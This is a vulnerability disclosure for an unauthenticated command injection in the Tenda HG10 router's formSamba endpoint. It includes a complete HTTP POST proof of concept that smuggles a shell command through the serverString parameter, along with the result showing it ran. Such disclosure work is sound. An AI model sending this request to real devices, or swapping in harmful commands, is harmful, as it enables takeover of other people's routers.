



# TARGET

**Product:** Tenda HG10
 **Model:** AC1200 Dualband Wi-Fi xPON ONT
 **Manufacturer:** Tenda Technology
 **Official Website:** https://www.tendacn.com/
 **Firmware Version:** US_HG7_HG9_HG10re_300001138_en_xpon

# BUG TYPE
Command Execution Vulnerability

# Abstract
A command execution vulnerability exists in the Tenda HG10 AC1200 Dualband Wi-Fi xPON ONT router.

The vulnerability resides in the `boa` web server’s `formSamba` interface and is caused by improper handling of the user-supplied `serverString ` parameter. Due to the absence of adequate input validation and filtering, an attacker can inject arbitrary system commands through specially crafted requests. Exploitation of this vulnerability allows an unauthenticated attacker to execute arbitrary commands on the affected device, potentially leading to full compromise of the router.

# Details

The vulnerability is located in the Boa web server’s formSamba handler, specifically in the processing of the serverString parameter.



The application retrieves the serverString value directly from user input using the boaGetVar function and embeds it into a shell command without sufficient validation or sanitization. As a result, attackers can inject malicious commands into the parameter, which are then executed by the system.

By exploiting this vulnerability, an unauthenticated attacker can execute arbitrary system commands on the target device, potentially gaining full control over the router.

# POC
```
POST /boaform/formSamba HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/samba.asp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

sambaCap=1&netBIOSName=&serverString=%24%28mkdir+%2Fhahaha%29&submit-url=%2Fsamba.asp&postSecurityFlag=36983
```

### Pre-Attack Status

Before sending the request, the target device’s file system does not contain the `hahaha` directory.

### Attack Execution

The malicious request is sent using the Burp Suite tool.

### Post-Attack Result

After the request is processed, the `hahaha` directory is successfully created on the device, demonstrating that the injected command has been executed and confirming the presence of a command injection vulnerability.





